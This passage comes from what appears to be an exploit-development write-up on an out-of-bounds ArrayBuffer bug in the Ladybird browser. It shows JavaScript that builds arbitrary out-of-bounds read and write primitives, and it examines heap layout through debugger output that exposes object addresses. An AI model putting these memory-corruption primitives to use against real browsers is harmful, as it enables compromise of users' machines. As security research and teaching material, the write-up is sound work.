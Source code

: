 This `oob` function captures the symmetry of our vulnerabilities quite nicely - they do essentially the same thing, just in opposite directions. This `oob` function simply copies one `ArrayBuffer` to another one without any checks against source and destination sizes. With this function, we can build actual `OOB` primitives:
```JavaScript
  // Write src to victim ignoring its size
  function oob_write(victim, src)
  {
    oob(src, victim, src.length);
  }

  // Read dest from victim ignoring its size
  function oob_read(victim, dest)
  {
    oob(victim, dest, dest.length);
  }
```
After that, we can start doing interesting things with... well, with what, exactly?

Probably with whatever lies in memory right after our exploited `ArrayBuffer`.

But what’s actually there?

### Memory Layout

Oddly enough, our `OOB` read/write gives us access to whatever objects we allocate after the exploited `ArrayBuffer`’s underlying buffer. Since we’re definitely going to understand the memory layout of the exploited `ArrayBuffer` itself, let’s try placing a few `ArrayBuffer`s one after another in memory and inspecting them in the debugger with the following simple code:
```JavaScript
let biba = new Uint8Array(0x08).fill(0x77);
let boba = new Uint8Array(0x88).fill(0x66);
console.log(biba, boba);
sleep(1000);
```
In Ladybird, we’ll see this:
```
286622.512 WebContent(887): (js log) [Uint8Array]
  buffer: [ArrayBuffer] @ 0x000076140c479400
  length: 8
  byteLength: 8
[ 119, 119, 119, 119, 119, 119, 119, 119 ] [Uint8Array]
  buffer: [ArrayBuffer] @ 0x000076140c4794a0
  length: 136
  byteLength: 136
[ 102, 102, 102, 102, 102, 102, 102, 102, 102, 102, 102, ...
```
Wait - are those object addresses in plain sight? This is definitely PWNers' Haven...

